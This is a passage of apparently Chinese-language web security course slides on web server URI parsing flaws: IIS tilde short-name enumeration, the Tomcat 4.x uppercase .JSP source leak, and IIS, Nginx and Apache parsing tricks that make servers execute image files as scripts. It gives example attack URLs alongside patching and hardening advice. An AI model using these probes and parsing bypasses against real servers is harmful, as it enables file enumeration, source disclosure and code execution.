// 如果服务器返回状态码 404 说明服务器上存在不止一个字母 e 开头的文件

http:/example.com/eb*~1*/.aspx
// 如果服务器返回状态码 400 说明服务器上不存在字母 eb 开头的文件

http:/example.com/ex*~1*/.aspx
// 如果服务器返回状态码 404 说明服务器上存在不止一个字母 ex 开头的文件

// 如此不断增加探测字符串长度即可完成指定服务器文件的枚举探测
```

---

### Tomcat 4.x 时代的 JSP 源代码泄漏漏洞 {id="tomcat-4.x-source-leak"}

* 漏洞起因在于 Windows 平台上的文件名是不区分大小写的，但 Java 运行环境中对于文件名是区分大小写的
* Tomcat 4.x 的默认 URI 解析映射规则是对于 `.jsp` 扩展名的文件请求会在服务器端解析执行 JSP 代码后再输出结果给浏览器
* 但如果客户端访问的文件扩展名是 `.JSP` 时，只要该文件路径在 Windows 系统上确实存在有效，但由于不是 Tomcat 的 JSP 引擎所期望的全小写字母，则会按照默认的文本文件处理，即直接读取文件内容并输出返回给浏览器，从而导致 JSP 源代码泄漏

---

> 故意访问一个不存在页面，借助服务器报错信息我们确认 Tomcat 版本是 4.1.27，存在该漏洞



---

> 访问 `.JSP` 扩展名时服务器直接泄漏了源代码




---

## 代码执行 {id="code-exec-in-web-infrastructure"}

* 上述 `CVE-2013-4547` 漏洞就可以导致 Web 服务器将非脚本文件扩展名对应的文件当作服务端脚本解析并执行
    * `IIS 5.x/6.0 解析漏洞`
    * `IIS 6.0 文件解析漏洞`
    * `IIS 7.0/IIS 7.5/ Nginx < 0.8.3 畸形 URI 解析漏洞`
    * `Apache 解析漏洞`

---

## 代码执行示例

```bash
# IIS 5.x/6.0 解析漏洞
# 在网站下建立文件夹的名称中带有.asp、.asa等可执行脚本文件后缀为后缀的文件夹，其目录内的任何扩展名的文件都被 IIS 当作脚本文件来解析并执行
http://www.vul.com/vul.asp/vul.jpg

# IIS 6.0 文件解析漏洞
# IIS 6.0 分号后面的数据不被解析，也就是说 vul.asp;.jpg 将被当做 vul.asp 解析并执行
http://www.vul.com/vul.asp;.jpg

# IIS 7.0/IIS 7.5/ Nginx < 0.8.3 畸形 URI 解析漏洞
# 在默认 Fast-CGI 开启状况下，访问以下网址，服务器将把 vul.jpg 文件当做 PHP 解析并执行
http://www.vul.com/vul.jpg/vul.php

# Apache 解析漏洞
# Apache 对文件解析是从右到左开始判断解析。如果文件的扩展名没有配置默认的处理程序，就再往左判断解析。 如 vul.php.owf.rar，由于Apache无法解析 rar 和 owf 扩展名，但能够解析 php 扩展名，因此 Apache 会将 vul.php.owf.rar 当做 PHP 代码进行解析并执行
http://www.vul.com/vul.php.owf.rar
```

---

## 拒绝服务

* 还是前述 `8.3 命名规则滥用漏洞`，精心构造的包含一堆 `~` 字符的 URI 请求还可以导致 [.NET 框架拒绝服务](http://soroush.secproject.com/downloadable/iis_tilde_dos.txt)
* 类似的漏洞还有如 Apache 的[CVE-2018-1303](https://nvd.nist.gov/vuln/detail/CVE-2018-1303)、[CVE-2015-0253](https://nvd.nist.gov/vuln/detail/CVE-2015-0253)、[CVE-2004-0786](https://nvd.nist.gov/vuln/detail/CVE-2004-0786) 等等

---

## 防御 Web 服务器 URI 解析类漏洞 {id="prevention-to-web-svr"}

* 升级版本
* 根据官方漏洞通告自己对存在漏洞的服务器打补丁
* 如果在不确定版本升级或打补丁是否会对运行在服务器上的代码带来兼容性方面的负面影响，还可以通过部署防火墙、入侵检测系统和应用防火墙等第三方安全系统来 **缓解**


# 17. 不当配置缺陷 {id="cce"}

---

* `IIS 7.0/IIS 7.5/ Nginx < 0.8.3 畸形 URI 解析漏洞`
* MySQL 的 `secure_file_priv` 参数正确配置对 SQL 注入时利用 DNS 进行带外数据传输的拦截作用

以上 2 个例子分别体现了错误的服务配置和正确的服务配置在提升系统安全性方面的截然不同的两种效果

---

* Nginx 的这个 URI 解析漏洞在不升级版本的情况下，实际只需要通过配置 `cgi.fix_pathinfo=0` 即可封堵上这个解析漏洞
* 如果需要自己通过配置的方式加固服务器基础软件（如 Web 服务器），强烈建议阅读官方文档中有关安全加固的内容
* 对于现代流行的服务器基础软件，大多数在发布的时候已经注意到遵循 `默认安全（secure by default）`理念去保证默认配置的安全性

---

⚠️ ⚠️ ⚠️  **需要特别注意的是** ⚠️ ⚠️ ⚠️  

* 类似 [XAMPP](https://www.apachefriends.org/) 这样的面向开发环境而非生产环境的一键式基础服务软件安装配置工具所提供的缺省配置往往不能直接应用于生产环境
    * 其默认配置是面向开发调试环境优化的，很多情况下会默认开启调试模式和允许更详细和丰富的错误日志信息回显等
        * 以上这些都是在生产环境中需要极力规避的危险设置

# 延伸阅读

---

* [【代码审计】PHP文件包含漏洞利用总结](http://vinc.top/2016/08/25/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/)
* [CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/)

